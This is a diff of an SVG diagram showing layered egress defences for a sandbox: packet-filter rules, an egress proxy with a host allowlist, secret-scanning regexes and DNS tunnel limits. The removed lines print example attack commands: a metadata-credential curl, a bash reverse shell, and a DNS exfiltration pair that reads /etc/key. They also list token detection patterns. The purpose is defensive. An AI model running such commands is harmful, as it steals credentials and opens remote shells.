

- <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 960 450" width="100%" height="100%" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, Helvetica, Arial, sans-serif">
+ <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 780 300" width="100%" height="100%" font-family="Helvetica Neue, Helvetica, Arial, sans-serif">
  <defs>
-     <marker id="arr-navy" markerWidth="7" markerHeight="5" refX="6" refY="2.5" orient="auto">
-       <path d="M0,0 L7,2.5 L0,5 Z" fill="#1e293b" />
+     <marker id="arr-gray" markerWidth="8" markerHeight="6" refX="7" refY="3" orient="auto">
+       <path d="M0,0 L8,3 L0,6 Z" fill="#64748b" />
    </marker>
-     <marker id="arr-teal" markerWidth="7" markerHeight="5" refX="6" refY="2.5" orient="auto">
-       <path d="M0,0 L7,2.5 L0,5 Z" fill="#0f766e" />
+     <marker id="arr-red" markerWidth="8" markerHeight="6" refX="7" refY="3" orient="auto">
+       <path d="M0,0 L8,3 L0,6 Z" fill="#dc2626" />
    </marker>
-     <marker id="arr-burgundy" markerWidth="7" markerHeight="5" refX="6" refY="2.5" orient="auto">
-       <path d="M0,0 L7,2.5 L0,5 Z" fill="#991b1b" />
+     <marker id="arr-purple" markerWidth="8" markerHeight="6" refX="7" refY="3" orient="auto">
+       <path d="M0,0 L8,3 L0,6 Z" fill="#7c3aed" />
    </marker>
-     <marker id="arr-ochre" markerWidth="7" markerHeight="5" refX="6" refY="2.5" orient="auto">
-       <path d="M0,0 L7,2.5 L0,5 Z" fill="#92400e" />
+     <marker id="arr-amber" markerWidth="8" markerHeight="6" refX="7" refY="3" orient="auto">
+       <path d="M0,0 L8,3 L0,6 Z" fill="#d97706" />
    </marker>
-     <marker id="arr-slate" markerWidth="7" markerHeight="5" refX="6" refY="2.5" orient="auto">
-       <path d="M0,0 L7,2.5 L0,5 Z" fill="#475569" />
+     <marker id="arr-blue" markerWidth="8" markerHeight="6" refX="7" refY="3" orient="auto">
+       <path d="M0,0 L8,3 L0,6 Z" fill="#0284c7" />
    </marker>
  </defs>
-   <rect width="960" height="450" fill="#ffffff" />
-   <g transform="translate(24, 20)">
-     <rect width="190" height="410" rx="4" fill="#f8fafc" stroke="#991b1b" stroke-width="1.5" />
-     <rect width="190" height="28" rx="4" fill="#fee2e2" stroke="#991b1b" stroke-width="1.5" />
-     <text x="12" y="19" font-size="8.5" font-weight="700" fill="#991b1b">SANDBOX NETWORK NS</text>
-     <text x="178" y="19" font-family="monospace" font-size="7.5" fill="#991b1b" text-anchor="end">veth0 / tap0</text>
-     <g transform="translate(10, 36)">
-       <rect width="170" height="66" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
-       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">Interface Configuration</text>
-       <text x="8" y="28" font-size="7.5" fill="#475569">Isolated Net Namespace</text>
-       <text x="8" y="40" font-size="7.5" fill="#475569">No default host gateway</text>
-       <text x="8" y="52" font-family="monospace" font-size="7" fill="#991b1b">0.0.0.0/0 route: unmapped</text>
-       <text x="8" y="62" font-size="6.8" fill="#0f766e">Zero ambient network access</text>
-     </g>
-     <g transform="translate(10, 110)">
-       <rect width="170" height="286" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
-       <rect width="170" height="20" rx="3" fill="#f1f5f9" />
-       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">Outbound Traffic Flows</text>
-       <g transform="translate(8, 28)">
-         <rect width="154" height="52" rx="2" fill="#f0fdf4" stroke="#86efac" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#166534">Package Install (HTTPS)</text>
-         <text x="6" y="24" font-family="monospace" font-size="7" fill="#15803d">pip install requests</text>
-         <text x="6" y="36" font-family="monospace" font-size="7" fill="#475569">dst: pypi.org:443</text>
-         <text x="6" y="46" font-size="6.5" font-weight="600" fill="#166534">Legitimate tool fetch</text>
-       </g>
-       <g transform="translate(8, 86)">
-         <rect width="154" height="58" rx="2" fill="#fef2f2" stroke="#fca5a5" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#991b1b">Cloud IMDS SSRF</text>
-         <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#991b1b">curl 169.254.169.254</text>
-         <text x="6" y="35" font-family="monospace" font-size="6.8" fill="#991b1b">  /latest/meta-data/iam</text>
-         <text x="6" y="46" font-size="6.5" font-weight="600" fill="#b91c1c">Host credential theft threat</text>
-       </g>
-       <g transform="translate(8, 150)">
-         <rect width="154" height="58" rx="2" fill="#fef2f2" stroke="#fca5a5" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#991b1b">Raw IP Reverse Shell</text>
-         <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#991b1b">bash -i &gt;&amp; /dev/tcp/</text>
-         <text x="6" y="35" font-family="monospace" font-size="6.8" fill="#991b1b">  198.51.100.1/4444</text>
-         <text x="6" y="46" font-size="6.5" font-weight="600" fill="#b91c1c">Direct TCP C2 connection</text>
-       </g>
-       <g transform="translate(8, 214)">
-         <rect width="154" height="60" rx="2" fill="#fef2f2" stroke="#fca5a5" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#991b1b">Covert DNS Tunnel</text>
-         <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#991b1b">token=$(cat /etc/key)</text>
-         <text x="6" y="35" font-family="monospace" font-size="6.8" fill="#991b1b">dig $token.evil.org</text>
-         <text x="6" y="46" font-size="6.5" font-weight="600" fill="#b91c1c">Secret exfiltration via UDP</text>
-       </g>
-     </g>
-   </g>
-   <line x1="214" y1="225" x2="232" y2="225" stroke="#1e293b" stroke-width="2" marker-end="url(#arr-navy)" />
-   <g transform="translate(234, 20)">
-     <rect width="230" height="410" rx="4" fill="#f8fafc" stroke="#1e293b" stroke-width="1.5" />
-     <rect width="230" height="28" rx="4" fill="#f1f5f9" stroke="#1e293b" stroke-width="1.5" />
-     <text x="115" y="19" font-size="8.5" font-weight="700" fill="#1e293b" text-anchor="middle">LAYER 1: KERNEL PACKET FILTER</text>
-     <g transform="translate(10, 36)">
-       <rect width="210" height="66" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
-       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">Packet Filter Mechanics (tc hook)</text>
-       <text x="8" y="28" font-size="7.5" fill="#475569">Evaluates before <tspan font-family="monospace">sk_buff</tspan> allocation</text>
-       <text x="8" y="40" font-size="7.5" fill="#475569">Zero context switch; in-kernel drop</text>
-       <text x="8" y="52" font-family="monospace" font-size="7" fill="#0f766e">D(p) = FORWARD iff dst==IP_proxy</text>
-       <text x="8" y="62" font-family="monospace" font-size="7" fill="#991b1b">     else DROP (TC_ACT_SHOT)</text>
-     </g>
-     <g transform="translate(10, 110)">
-       <rect width="210" height="286" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
-       <rect width="210" height="20" rx="3" fill="#f1f5f9" />
-       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">Ordered Filter Rules</text>
-       <g transform="translate(8, 26)">
-         <rect width="194" height="46" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#991b1b">Rule 1: Link-Local IMDS Trap</text>
-         <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#7f1d1d">dst == 169.254.0.0/16 or [fd00:ec2::254]</text>
-         <text x="6" y="36" font-family="monospace" font-size="7" font-weight="700" fill="#991b1b">Verdict: TC_ACT_SHOT (DROP + Alert)</text>
-       </g>
-       <g transform="translate(8, 76)">
-         <rect width="194" height="46" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#991b1b">Rule 2: Intranet RFC 1918 Trap</text>
-         <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#7f1d1d">dst in {10.0/8, 172.16/12, 192.168/16}</text>
-         <text x="6" y="36" font-family="monospace" font-size="7" font-weight="700" fill="#991b1b">Verdict: TC_ACT_SHOT (Blocks Lateral)</text>
-       </g>
-       <g transform="translate(8, 126)">
-         <rect width="194" height="46" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#991b1b">Rule 3: Raw Numeric IP Trap</text>
-         <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#7f1d1d">Direct numeric IP without DNS lease</text>
-         <text x="6" y="36" font-family="monospace" font-size="7" font-weight="700" fill="#991b1b">Verdict: TC_ACT_SHOT (Reverse Shell Abort)</text>
-       </g>
-       <g transform="translate(8, 176)">
-         <rect width="194" height="46" rx="2" fill="#f0fdf4" stroke="#86efac" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#166534">Rule 4: Proxy Forward Match</text>
-         <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#14532d">dst == IP_proxy &amp;&amp; dport == P_proxy</text>
-         <text x="6" y="36" font-family="monospace" font-size="7" font-weight="700" fill="#166534">Verdict: TC_ACT_OK (FORWARD to proxy)</text>
-       </g>
-       <g transform="translate(8, 226)">
-         <rect width="194" height="46" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#991b1b">Rule 5: Default-Deny Catch-All</text>
-         <text x="6" y="24" font-family="monospace" font-size="6.8" fill="#7f1d1d">Any unmatched outbound frame</text>
-         <text x="6" y="36" font-family="monospace" font-size="7" font-weight="700" fill="#991b1b">Verdict: TC_ACT_SHOT (Zero ambient)</text>
-       </g>
-     </g>
-   </g>
-   <line x1="464" y1="225" x2="482" y2="225" stroke="#0f766e" stroke-width="2" marker-end="url(#arr-teal)" />
-   <g transform="translate(484, 20)">
-     <rect width="230" height="410" rx="4" fill="#f8fafc" stroke="#0f766e" stroke-width="1.5" />
-     <rect width="230" height="28" rx="4" fill="#ccfbf1" stroke="#0f766e" stroke-width="1.5" />
-     <text x="115" y="19" font-size="8.5" font-weight="700" fill="#0f766e" text-anchor="middle">LAYER 2: EGRESS PROXY</text>
-     <g transform="translate(10, 36)">
-       <rect width="210" height="66" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
-       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">Proxy Mediation Enclave</text>
-       <text x="8" y="28" font-size="7.5" fill="#475569">Terminated at loopback / internal vlan</text>
-       <text x="8" y="40" font-size="7.5" fill="#475569">L7 deep inspection &amp; TLS termination</text>
-       <text x="8" y="52" font-family="monospace" font-size="7" fill="#0f766e">Listening: IP_proxy:8443 (Mutual TLS)</text>
-       <text x="8" y="62" font-size="6.8" fill="#334155">Cryptographic client identity check</text>
-     </g>
-     <g transform="translate(10, 110)">
-       <rect width="210" height="286" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
-       <rect width="210" height="20" rx="3" fill="#f1f5f9" />
-       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">L7 Protocol Inspection Engines</text>
-       <g transform="translate(8, 26)">
-         <rect width="194" height="74" rx="2" fill="#ffffff" stroke="#cbd5e1" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#1e293b">A. TLS SNI Host Allowlist</text>
-         <text x="6" y="24" font-size="7" fill="#475569">Extracts SNI before TLS handshake:</text>
-         <rect x="6" y="28" width="182" height="18" rx="1" fill="#f0fdf4" stroke="#86efac" stroke-width="0.6" />
-         <text x="8" y="40" font-family="monospace" font-size="6.8" fill="#166534">MATCH: *.pypi.org, *.github.com → ALLOW</text>
-         <rect x="6" y="50" width="182" height="18" rx="1" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.6" />
-         <text x="8" y="62" font-family="monospace" font-size="6.8" fill="#991b1b">MISMATCH: evil-c2.com → 403 FORBIDDEN</text>
-       </g>
-       <g transform="translate(8, 106)">
-         <rect width="194" height="78" rx="2" fill="#ffffff" stroke="#cbd5e1" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#1e293b">B. Outbound Secret Redaction</text>
-         <text x="6" y="24" font-size="7" fill="#475569">Regex deep payload scanner on POST bodies:</text>
-         <rect x="6" y="28" width="182" height="42" rx="1" fill="#fef3c7" stroke="#fde68a" stroke-width="0.6" />
-         <text x="8" y="40" font-family="monospace" font-size="6.8" fill="#92400e">AWS: AKIA[0-9A-Z]{16}</text>
-         <text x="8" y="50" font-family="monospace" font-size="6.8" fill="#92400e">GH:  ghp_[0-9a-zA-Z]{36}</text>
-         <text x="8" y="62" font-size="6.5" font-weight="700" fill="#b45309">Action: Block POST &amp; Sever Session</text>
-       </g>
-       <g transform="translate(8, 190)">
-         <rect width="194" height="84" rx="2" fill="#ffffff" stroke="#cbd5e1" stroke-width="0.8" />
-         <text x="6" y="12" font-size="7.5" font-weight="700" fill="#1e293b">C. Split-Horizon DNS Enclave</text>
-         <text x="6" y="24" font-size="7" fill="#475569">Strict label length cap: ≤ 24 chars</text>
-         <text x="6" y="36" font-size="7" fill="#475569">Shannon entropy filter: H(X) &gt; 4.2 drop</text>
-         <rect x="6" y="42" width="182" height="34" rx="1" fill="#f0fdfa" stroke="#99f6e4" stroke-width="0.6" />
-         <text x="8" y="54" font-family="monospace" font-size="6.8" fill="#0f766e">dig $token.evil.org → NXDOMAIN</text>
-         <text x="8" y="68" font-size="6.5" font-weight="600" fill="#0f766e">Rate-clamped: 30 bytes/sec exfil limit</text>
-       </g>
-     </g>
-   </g>
-   <line x1="714" y1="225" x2="732" y2="225" stroke="#1e293b" stroke-width="2" marker-end="url(#arr-navy)" />
-   <g transform="translate(734, 20)">
-     <rect width="202" height="410" rx="4" fill="#f8fafc" stroke="#1e293b" stroke-width="1.5" />
-     <rect width="202" height="28" rx="4" fill="#f1f5f9" stroke="#1e293b" stroke-width="1.5" />
-     <text x="12" y="19" font-size="8.5" font-weight="700" fill="#1e293b">EGRESS VERDICT &amp; FABRIC</text>
-     <g transform="translate(10, 36)">
-       <rect width="182" height="170" rx="3" fill="#ffffff" stroke="#16a34a" stroke-width="1.2" />
-       <rect width="182" height="22" rx="3" fill="#dcfce7" stroke="#16a34a" stroke-width="1.2" />
-       <text x="8" y="15" font-size="8" font-weight="700" fill="#15803d">PERMITTED EGRESS</text>
-       <g transform="translate(8, 28)">
-         <text x="0" y="12" font-family="monospace" font-size="7.5" font-weight="700" fill="#15803d">pypi.org / files.python...</text>
-         <text x="0" y="22" font-size="6.8" fill="#475569">Python wheel dependencies</text>
-         <text x="0" y="38" font-family="monospace" font-size="7.5" font-weight="700" fill="#15803d">api.github.com</text>
-         <text x="0" y="48" font-size="6.8" fill="#475569">Authorized remote git push</text>
-         <text x="0" y="64" font-family="monospace" font-size="7.5" font-weight="700" fill="#15803d">registry.npmjs.org</text>
-         <text x="0" y="74" font-size="6.8" fill="#475569">Node module resolutions</text>
-         <rect y="86" width="166" height="46" rx="2" fill="#f0fdf4" stroke="#86efac" stroke-width="0.8" />
-         <text x="83" y="100" font-size="7.5" font-weight="700" fill="#166534" text-anchor="middle">HTTP 200 OK</text>
-         <text x="83" y="112" font-size="6.8" fill="#15803d" text-anchor="middle">Forwarded over Host eth0</text>
-         <text x="83" y="124" font-size="6.8" fill="#15803d" text-anchor="middle">Clean Execution Pipeline</text>
-       </g>
-     </g>
-     <g transform="translate(10, 214)">
-       <rect width="182" height="182" rx="3" fill="#ffffff" stroke="#991b1b" stroke-width="1.2" />
-       <rect width="182" height="22" rx="3" fill="#fee2e2" stroke="#991b1b" stroke-width="1.2" />
-       <text x="8" y="15" font-size="8" font-weight="700" fill="#991b1b">BLOCKED / TRAPPED</text>
-       <g transform="translate(8, 28)">
